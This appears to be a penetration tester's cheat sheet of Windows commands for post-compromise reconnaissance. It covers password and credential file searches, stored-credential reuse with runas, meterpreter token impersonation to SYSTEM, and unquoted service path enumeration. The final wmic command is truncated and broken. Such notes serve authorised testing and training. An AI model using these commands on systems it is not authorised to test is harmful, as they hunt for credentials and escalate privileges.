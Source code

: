 # Internal Recon

## General

### System info

```cpp
systeminfo
hostname
whoami /all
```

### Users/localgroups on the machine

```cpp
net users
net localgroups
net localgroups Administrators
net user hax0r

#Check local and domain
net user hax0r /domain
net group Administrators /domain
```

### Network information/connections

```cpp
ipconfig /all
route print
arp -A
netstat -ano
```

### Search tips

```csharp
#FindStr
findstr /spin "password" *.* //Recursive string scan

#Dir
dir /a-r-d /s /b //Search for writeable directories
dir secret.txt /s /p //Search for secret.txt recursive from folder
dir /s *pass* == *cred* == *vnc* == *.config* //Search for certain words
```

## Privilege Escalation

### Stored Credential

```csharp
cmdkey /list //Check if any stored key
runas /user:administrator /savecred "cmd.exe /k whoami" //Using them
```

### Impersonating Tokens with meterpreter

```csharp
use incognito
list_tokens -u
impersonate_token NT-AUTHORITY\System
```

### Unquoted Path

```cpp
#Obtain the path of the executable called by a Windows service
sc query state= all | findstr "SERVICE_NAME:" >> a & FOR /F "tokens=2 delims= " %i in (a) DO @echo %i >> b & FOR /F %i in (b) DO @(@echo %i & @echo --------- & @sc qc %i | findstr "BINARY_PATH_NAME" & @echo.) & del a 2>nul & del b 2>nul

#Default search
wmic service get name,pathname,displayname,startmode | findstr /i auto | findstr /i /v
```

